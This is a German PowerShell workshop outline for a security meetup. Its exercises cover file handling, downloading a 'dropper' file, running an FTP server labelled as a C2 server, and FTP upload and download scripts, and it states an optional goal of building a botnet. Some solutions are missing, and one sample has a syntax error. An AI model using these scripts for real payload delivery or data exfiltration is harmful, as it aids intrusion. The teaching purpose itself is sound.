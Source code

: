 # Motivation
 
 Ziel: Workshop Powershell
 
 Rahmen: Security Meetup öffentliche Veranstaltung
 Publikum: Pentester, Admins, Entwickler
 
 (Optionales Ziel: Botnetz entwickeln)
 
# Ablauf
 
 Wie findet man sich zurecht in Powershell wenn man von Linux kommt
 
 Theorie-Praxis-Theorie-Praxis...
 
# Powershell zum Laufen bekommen
 
 Linux: snap
 Windows: vorinstalliert
 
# Hello World
 
## Übungsbeschreibung
 
 Gib "Ich bin der L77t H4x0r" auf dem Bildschirm aus
 
## Hilfe
 Get-Help, alias
 
## Lösung 

```
 echo "Ich bin der L77t H4x0r"
```
`
# Datei zwischenspeichern
 
## Übungsbeschreibung
 
 Schreibe "I was here, I pwnd your system, muahaha" in eine Datei info.txt
 
## Hilfe
 Nutze Google "Write string to file powershell"

## Lösung

```
"I was here, I pwnd your system, muahaha" | Out-File .\info.txt
```

# Datei auslesen 
 
## Übungsbeschreibung
 
 Lies die Datei info.txt aus und gib sie auf dem Bildschirm aus
 
## Lösung

x nachzupflegen

# Datei herunterladen

## Übungsbeschreibung

Lade folgende Datei über powershell herunter
https://raw.githubusercontent.com/secf00tprint/powershellworkshop/main/droppercontent

## Hilfe
Recherchiere zu der System.Net.WebClient Klasse

## Lösung 

x nachzupflegen

# Datei über ftp herunterladen

## Übungsbeschreibung

https://hub.docker.com/r/garethflowers/ftp-server
fahre folgenden ftp server hoch mit folgendem Befehl.

```
docker run \
	--name c2server \
	--detach \
	--env FTP_USER=c2cmdgod \
	--env FTP_PASS=c2cmdgod \
	--network host \
	--volume /data:/home/user \
	garethflowers/ftp-server
```

## Hilfe
Schaue dir die System.Net.WebClient Klasse in bezug auf ftp an

## Beispiellösungen 

```
$file = "C:\test.txt"
$ftpuri = "ftp://test:123qwe@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)

$file = "C:\test.txt"
$password="test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)
```

# Datei über ftp hochladen

## Übungsbeschreibung 
Lade über das ftp protokoll folgende Datei vom beigelieferten vsftp server hoch:

## Hilfe
Ähnliches vorgehen wie in vorangegangener Aufgabe.

## Beispiellösung

```
$file = "C:\test.txt"
$password"test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.UploadFile($uri, $file)
``

# timing Aufgaben


